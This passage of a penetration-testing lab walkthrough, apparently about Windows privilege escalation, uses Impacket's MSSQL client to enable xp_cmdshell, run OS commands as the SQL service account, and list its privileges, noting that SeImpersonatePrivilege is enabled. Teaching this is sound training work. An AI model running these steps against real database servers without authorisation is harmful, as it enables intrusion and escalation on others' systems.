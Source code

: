 ### **Enabling xp\_cmdshell**

Next, we must enable the `xp_cmdshell` stored procedure to run operating system commands. We can do this via the Impacket MSSSQL shell by typing `enable_xp_cmdshell`. Typing `help` displays a few other command options.

```shell-session
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install
```

{% hint style="info" %}
## No need to run reconfigure with impacket-mssqlclient

**Note:** We don't actually have to type `RECONFIGURE` as Impacket does this for us.
{% endhint %}

### **Confirming Access**

With this access, we can confirm that we are indeed running in the context of a SQL Server service account.

```shell-session
SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01
```

### **Checking Account Privileges**

Next, let's check what privileges the service account has been granted.

```shell-session
SQL> xp_cmdshell whoami /priv

output                                                                             

--------------------------------------------------------------------------------   
                                                                    
PRIVILEGES INFORMATION                                                             

----------------------                                                             
Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled  
```

